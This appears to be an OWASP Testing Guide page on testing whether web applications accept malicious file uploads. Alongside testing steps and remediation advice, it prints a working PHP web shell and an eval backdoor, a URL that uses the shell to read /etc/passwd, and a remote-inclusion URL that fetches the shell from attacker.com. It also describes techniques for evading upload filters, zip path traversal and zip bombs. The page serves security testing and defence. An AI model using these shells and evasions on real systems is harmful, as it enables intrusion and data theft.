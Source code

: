 Summary
-------

Many application’s business processes allow for the upload of data/information. We regularly check the validity and security of text but accepting files can introduce even more risk. To reduce the risk we may only accept certain file extensions, but attackers are able to encapsulate malicious code into inert file types. Testing for malicious files verifies that the application/system is able to correctly protect against attackers uploading malicious files.

Vulnerabilities related to the uploading of malicious files is unique in that these “malicious” files can easily be rejected through including business logic that will scan files during the upload process and reject those perceived as malicious. Additionally, this is different from uploading unexpected files in that while the file type may be accepted the file may still be malicious to the system.

Finally, “malicious” means different things to different systems, for example Malicious files that may exploit SQL server vulnerabilities may not be considered a “malicious” to a main frame flat file environment.

The application may allow the upload of malicious files that include exploits or shellcode without submitting them to malicious file scanning. Malicious files could be detected and stopped at various points of the application architecture such as: IPS/IDS, application server anti-virus software or anti-virus scanning by application as files are uploaded (perhaps offloading the scanning using SCAP).

Example
-------

Suppose a picture sharing application allows users to upload their .gif or .jpg graphic files to the web site. What if an attacker is able to upload a PHP shell, or exe file, or virus? The attacker may then upload the file that may be saved on the system and the virus may spread itself or through remote processes exes or shell code can be executed.

How to Test
-----------

Generic Testing Method

• Review the project documentation and use exploratory testing looking at the application/system to identify what constitutes and “malicious” file in your environment.

• Develop or acquire a known “malicious” file. An [EICAR anti-malware test file](http://www.eicar.org/85-0-Download.html) can be used as harmless, but widely detected by antivirus software.

• Try to upload the malicious file to the application/system and verify that it is correctly rejected.

• If multiple files can be uploaded at once, there must be tests in place to verify that each file is properly evaluated.

### Exploit Payload

• Using the Metasploit payload generation functionality generates a shellcode as a Windows executable using the Metasploit “msfpayload” command.

• Submit the executable via the application’s upload functionality and see if it is accepted or properly rejected.

### Malicious File

• Develop or create a file that should fail the application malware detection process. There are many available on the Internet such as ducklin.htm or ducklin-html.htm.

• Submit the executable via the application’s upload functionality and see if it is accepted or properly rejected.

<http://www.eicar.org/86-0-intended-use.html>

### WebShell Backdoor

For example upload the 'WebShell-backdoor.php' to the target victim site.\

`<?php`\
`if(isset($_REQUEST['cmd'])){`\
`echo "<pre>";`\
`$cmd = ($_REQUEST['cmd']);`\
`system($cmd);`\
`echo "</pre>";`\
`die;`\
`}`\
`?>`

Once it's uploaded, the testers/hackers may get the password by visiting the URL below.

[`http://TargetVictimSite.com/WebShell-backdoor.php?cmd=cat+/etc/passwd`](http://TargetVictimSite.com/WebShell-backdoor.php?cmd=cat+/etc/passwd)

or it may execute by remote file injection as below.

<http://TargetVictimSite.com/File.php?include=http://attacker.com/WebShell-backdoor.php>

Other PHP example:

<?php @eval($_POST['password']);?>
### Invalid File

• Set up the intercepting proxy to capture the “valid” request for an accepted file.

• Send an “invalid” request through with a valid/acceptable file extension and see if the request is accepted or properly rejected.

### Source Code Review

When there is file upload feature supported, the following API/methods are common to be found in the source code.

-   Java: new file, import, upload, getFileName, Download, getOutputString
-   C/C++: open, fopen
-   PHP: move\_uploaded\_file(),Readfile, file\_put\_contents(),file(),parse\_ini\_file(), copy(),fopen(),include(), require()

### Evasion of the Filter

The following techniques may be used to bypass the website file upload checking rules and filters.

-   Change the value of 'Content-Type' as 'image/jpeg' in HTTP request
-   Change the extensions as executable extensions such as file.php5, file.shtml, file.asa, file.cert, file.jsp, file.jspx, file.aspx, file.asp, file.phtml
-   Changes of capital letters of extensions. such as file.PhP or file.AspX
-   Using special trailing such as spaces, dots or null characters such as file.asp… . file.php;jpg, file.asp%00.jpg, 1.jpg%00.php

The executable extensions should be in black list such as file.php5, file.shtml, file.asa, file.cert, file.jsp, file.jspx, file.aspx, file.asp, file.phtml

-   In IIS6 vulnerability, if the file name is file.asp;file.jpg,the file will be executed as file.asp.

`http://www.targetVictim.com/path/file.asp;file.jpg`

-   In NginX, if the original file name is test.jpg, testers/hackers may change it to 'test.jpg/x.php'

Once it's uploaded, the file will be executed as x.php

### Zip files path

One Zip file may contain the malicious PHP with target purpose path such as '..\\..\\..\\..\\hacker.php' If the website doesn't check the unzip target path, the hacker.php may unzip to the specified path.

### Zip Bomp

Upload the ZIP bomb file that may cause application denial of service.

<https://github.com/AbhiAgarwal/notes/wiki/Zip-bomb>

-   new File, file, OutputSteam, upload, import, file\_put\_contents, open, fopen

Related Test Cases
------------------

[ Test File Extensions Handling for Sensitive Information (OTG-CONFIG-003)](Test_File_Extensions_Handling_for_Sensitive_Information_(OTG-CONFIG-003) "wikilink")

[ Test Upload of Unexpected File Types (OTG-BUSLOGIC-008)](Test_Upload_of_Unexpected_File_Types_(OTG-BUSLOGIC-008) "wikilink")

Tools
-----

• Metasploit's payload generation functionality

• Intercepting proxy

References
----------

OWASP - Unrestricted File Upload - <https://www.owasp.org/index.php/Unrestricted_File_Upload>

Why File Upload Forms are a Major Security Threat - <http://www.acunetix.com/websitesecurity/upload-forms-threat/>

File upload security best practices: Block a malicious file upload - <http://www.computerweekly.com/answer/File-upload-security-best-practices-Block-a-malicious-file-upload>

Overview of Malicious File Upload Attacks - <http://securitymecca.com/article/overview-of-malicious-file-upload-attacks/>

8 Basic Rules to Implement Secure File Uploads - <http://software-security.sans.org/blog/2009/12/28/8-basic-rules-to-implement-secure-file-uploads>

Stop people uploading malicious PHP files via forms - <http://stackoverflow.com/questions/602539/stop-people-uploading-malicious-php-files-via-forms>

How to Tell if a File is Malicious - <http://www.techsupportalert.com/content/how-tell-if-file-malicious.htm>

CWE-434: Unrestricted Upload of File with Dangerous Type - <http://cwe.mitre.org/data/definitions/434.html>

Implementing Secure File Upload - <http://infosecauditor.wordpress.com/tag/malicious-file-upload/>

Watchful File Upload - <http://palizine.plynt.com/issues/2011Apr/file-upload/>

Matasploit Generating Payloads - <http://www.offensive-security.com/metasploit-unleashed/Generating_Payloads>

Project Shellcode – Shellcode Tutorial 9: Generating Shellcode Using Metasploit <http://www.projectshellcode.com/?q=node/29>

Anti-Malware Test file - <http://www.eicar.org/86-0-Intended-use.html>

Remediation
-----------

While safeguards such as black or white listing of file extensions, using “Content-Type” from the header, or using a file type recognizer may not always be protections against this type of vulnerability. Every application that accepts files from users must have a mechanism to verify that the uploaded file does not contain malicious code. Uploaded files should never be stored where the users or attackers can directly access them.
